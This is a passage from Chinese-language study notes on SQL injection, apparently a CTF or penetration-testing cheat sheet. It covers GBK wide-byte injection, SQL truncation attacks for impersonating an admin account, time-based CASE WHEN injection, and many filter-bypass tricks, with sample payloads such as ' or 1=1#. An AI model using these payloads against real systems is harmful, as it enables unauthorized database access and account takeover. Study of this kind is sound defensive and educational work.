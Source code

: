 
## 5. 宽字节注入

- 原理：当数据库使用**gbk 编码**(前提), 当数据库过滤单引号(')为(\')时, 使用%df'去注入, 例如:

```sql
id=1%df' and '1'='2'
```

服务器会将`'`转义为`\'`<=====>`%5c%27`  
因此注入`%df'` <=====> `%df%5c%27` <=======> `id=1(一个gbk编码汉字)'`注入成功

## 6. insert 注入

### 6.1 sql 约束攻击

- 前提：假设一数据库中存在字段 username 和 password, 其定义长度为 n 和 m, 则当插入数据长度大于 n(m)时, 只会截取前 n(m)位;6.
- 利用： 当数据库中存在一个确定的 username 时, 如 admin, 若插入 admin[n 个空格]1 则只会截取前 n 位, 又因为 mysql 在执行 mysql_real_escape_string()时会忽略空格, 因此实际上插入的数据名为 admin, 代码:

```sql
INSERT INTO user(username, password)
VAULE('admin                            1', '123456')
```

### 6.2 case when 注入

在语句`insert into tablename('id') value ('$a');`中, 可以构造:

```php
$a = "1' and case when 1 then sleep(5) else 0 end and '1'='1.";
```

这个也可以绕过 if 过滤.

## 7. SQL 注入过滤的绕过姿势

- 1.若发现有关键字过滤, 尝试:
  - 1).使用重写术绕过过滤, 例如`selselectect`
  - 2).大小写绕过, 例如`UniOn`
  - 3).注释绕过, 例如`uni/**/on`
  - 4).
- 2.使用异或注入法检测是否过滤, 例如 `1' ^ (length('union')!=0)`若为假, 则说明 union 未过滤; 反之被过滤.
- 3.使用 url 编码绕过, 例如将#转义为%23
- 4.若过滤了=号， 使用`!(a<>b)`代替`a==b`, 或使用`like`, 或使用`regex binary`
- 5.若过滤了空格，使用注释代替空格:` /**/`, 或使用括号代替空格, 或使用回车 0x0a 代替
- 6.逗号过滤:
  - `substr`函数中, 可以使用`from for`代替逗号
  - `limit 0,1`等同于`limit 1 offset 0`
- 7.引号过滤: 需要两处输入点, 例如在形如如下查询语句中:

```
select * from user where username='admin' and password='password';
```

可以在 username 中输入`admin\`, 则原生的单引号会被转义, 输入的 password 为我们的 payload, 输入 username 为`admin\`, password 为` or 1=1#`

```
select * from user where username='admin\' and password=' or 1=1#';
```

那么 mysql 在执行时, username 字段变为了`username='admin\' and password='`, 之后的条件语句变为了`or 1=1#`, 此时我们没有输入单引号就造成了注入.

## 8. XPath 报错注入:

- updatexml(): 对 xml 进行查询和修改
- extractvalue(): 对 xml 进行查询和修改
